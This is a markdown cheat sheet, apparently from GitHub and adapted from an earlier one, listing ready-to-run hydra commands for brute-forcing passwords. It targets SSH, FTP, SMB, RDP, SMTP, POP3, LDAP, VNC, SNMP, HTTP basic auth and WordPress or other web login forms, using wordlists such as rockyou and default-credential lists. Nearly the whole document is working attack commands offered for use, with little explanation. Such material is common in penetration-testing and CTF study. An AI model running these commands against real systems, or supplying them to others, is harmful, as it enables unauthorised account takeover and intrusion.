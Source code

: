 # Hydra Cheatsheet

Hydra Password Cracking Cheetsheet, the [Original](https://github.com/frizb/Hydra-Cheatsheet), this one is four years old so I made some additions.

Always consider adding the `-e`
```bash
-e nsr    try "n" null password, "s" login as pass and/or "r" reversed login
```

- Using burp to capture a request and copying and pasting the form names into the command line avoid silly mistakes that are time costly
```bash
# Command 								Description:
hydra -P password-file.txt -v $ip snmp 					# Hydra brute force against SNMP
hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp 	# Hydra FTP known user and rockyou password list

# Default FTP credentials
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt $ip ftp
 
hydra -v -V -u -L users.txt -P passwords.txt -t 1 $ip ssh 		# Hydra SSH using list of users and passwords
hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh 			# Hydra SSH using a known password and a username list
hydra $ip -s 22 ssh -l -P big_wordlist.txt 				# Hydra SSH Against Known username on port 22
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V 	# Hydra POP3 Brute Force
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V 			# Hydra SMTP Brute Force
hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin 		# Hydra attack http get 401 login with a dictionary
hydra -t 1 -V -f -l administrator -P rockyou.txt rdp://$ip 		# Hydra attack Windows Remote Desktop with rockyou
hydra -t 1 -V -f -l administrator -P rockyou.txt $ip smb 		# Hydra brute force SMB user with rockyou

# Non Usernames
# redis, adam6500, cisco, oracle-listener, s7-300, snmp and vnc modules are only using the -p or -P option, not login (-l, -L) or colon file (-C)
hydra -P /usr/share/wordlists/rockyou.txt vnc://$ip

# Hydra HTTP Basic Authenication Brute Force
hydra -l admin -P /usr/share/wordlists/rockyou.txt $ip -s $port -f http-get / 

# Hydra brute force a Wordpress admin login
hydra -l username -P wordlist.txt -f 10.10.71.232 http-post-form "/login.php:username=^USER^&password=^PASS^:F=incorrect" # READ THE SOURCE
hydra -l admin -P ./passwordlist.txt $ip -V http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' 

hydra -L usernames.txt -P passwords.txt $ip smb -V -f 			# SMB Brute Forcing
hydra -L users.txt -P passwords.txt $ip ldap2 -V -f 			# LDAP Brute Forcing

# Need a cookie

...F=incorrect:H=Cookie:...
```


## References

[Frizb's Hydra Cheatsheet(Original)](https://github.com/frizb/Hydra-Cheatsheet)